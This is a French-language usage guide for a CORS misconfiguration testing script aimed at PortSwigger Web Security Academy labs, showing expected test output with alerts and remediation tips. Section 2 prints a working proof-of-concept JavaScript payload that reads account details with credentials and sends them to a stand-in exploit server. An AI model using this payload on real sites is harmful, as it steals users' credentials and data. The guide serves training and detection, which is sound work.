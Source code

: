# MANPAGE

Voici un exemple exhaustif d’utilisation du script CORS pour les challenges PortSwigger, avec analyse des résultats attendus pour chaque fonction, en lien avec les scénarios classiques des labs :

---

## 1. Test des headers CORS avec différentes valeurs Origin

**But** : Vérifier si le serveur accepte des origines arbitraires, null, sous-domaines, ou non sécurisées, et s’il combine `Access-Control-Allow-Credentials: true` avec une origine dangereuse.

**Exécution** :
```bash
./script.sh
```
**Sortie attendue** :
```
[1] Test des headers CORS avec différentes valeurs Origin

Test avec Origin: https://evil.com
access-control-allow-origin: https://evil.com
access-control-allow-credentials: true
>> [ALERTE] L'origine https://evil.com est reflétée dans Access-Control-Allow-Origin !
>> [DANGER] Access-Control-Allow-Credentials: true détecté avec https://evil.com !
>> PROPOSITION : Ne jamais refléter d'origine dangereuse ou arbitraire avec allow-credentials.

Test avec Origin: null
access-control-allow-origin: null
>> [ALERTE] L'origine null est reflétée dans Access-Control-Allow-Origin !
>> PROPOSITION : Ne jamais autoriser l'origine null sauf cas strictement nécessaire.

Test avec Origin: https://subdomain.your-lab.web-security-academy.net
access-control-allow-origin: https://subdomain.your-lab.web-security-academy.net

Test avec Origin: http://trusted-subdomain.your-lab.web-security-academy.net
access-control-allow-origin: http://trusted-subdomain.your-lab.web-security-academy.net
>> [ALERTE] Le serveur accepte un sous-domaine non sécurisé (HTTP) !
>> PROPOSITION : Toujours exiger HTTPS pour les origines de confiance.

Test avec Origin: https://example.com
access-control-allow-origin: https://example.com

Test avec Origin: *
access-control-allow-origin: *
>> [ALERTE] Access-Control-Allow-Origin: * détecté !
>> PROPOSITION : Ne jamais utiliser * avec des endpoints sensibles ou allow-credentials.
```
**Analyse** : Si le serveur reflète n’importe quelle origine ou accepte `null`, ou s’il combine `allow-credentials: true` avec une origine arbitraire, la configuration est vulnérable[1][3][5].

---

## 2. Génération d’une preuve de concept JS pour exploitation CORS (origin reflection)

**But** : Générer un script de vol de données (exfiltration) à placer sur un exploit server PortSwigger.

**Exécution** :  
Le script affiche un code HTML/JS :
```html
<script>
var req = new XMLHttpRequest();
req.onload = function() {
    location = 'https://YOUR-EXPLOIT-SERVER/log?key=' + encodeURIComponent(this.responseText);
};
req.open('GET', 'https://your-lab.web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.send();
</script>
```
**Test** :
- Placez ce code sur votre exploit server PortSwigger.
- Cliquez sur "View exploit" pour vérifier que l’API key ou des données sensibles sont exfiltrées via les logs de l’exploit server[3][5].

---

## 3. Test de configuration CORS dangereuse avec null ou protocoles mixtes

**But** : Tester si le serveur accepte l’origine `null` (ex : sandbox, fichiers locaux) ou des sous-domaines en HTTP.

**Exécution** :
```
[3] Test de configuration CORS avec Origin: null et protocoles mixtes
Origin: null
access-control-allow-origin: null
>> [ALERTE] Le serveur accepte l'origine null !
>> PROPOSITION : Ne jamais autoriser l'origine null sauf cas strictement nécessaire.

Origin: http://trusted-subdomain.your-lab.web-security-academy.net
access-control-allow-origin: http://trusted-subdomain.your-lab.web-security-academy.net
>> [ALERTE] Le serveur accepte un sous-domaine non sécurisé (HTTP) !
>> PROPOSITION : Toujours exiger HTTPS pour les origines de confiance.
```
**Analyse** : Si le serveur accepte `null` ou un sous-domaine en HTTP, la configuration est vulnérable à certains scénarios d’attaque avancés[1][3][5].

---

## 4. Conseils avancés et Burp Suite

**But** : Automatiser et approfondir la détection de mauvaises configurations CORS.

**Exécution** :
```
[4] Conseils avancés et automatisation avec Burp Suite
- Utilisez l'extension Burp 'CORS* - Additional CORS Checks' pour automatiser la détection de mauvaises configurations.
- L'extension teste la réflexion d'origines arbitraires, null, sous-domaines, protocoles mixtes, etc.
- Documentation : https://portswigger.net/web-security/cors
- Extension : https://github.com/PortSwigger/additional-cors-checks
```
**Analyse** : Utilisez Burp Suite et son extension pour une couverture complète et automatisée des scénarios CORS[7].

---

## Synthèse finale

**Sortie** :
```
------------------------------------------------------
[SYNTHÈSE]
1. Vérifiez si des origines arbitraires, null ou non sécurisées sont acceptées dans Access-Control-Allow-Origin.
2. Testez l'exfiltration de données sensibles via la PoC JS générée.
3. Utilisez Burp Suite et son extension CORS* pour une couverture complète.
Documentation PortSwigger : https://portswigger.net/web-security/cors
------------------------------------------------------
```

---
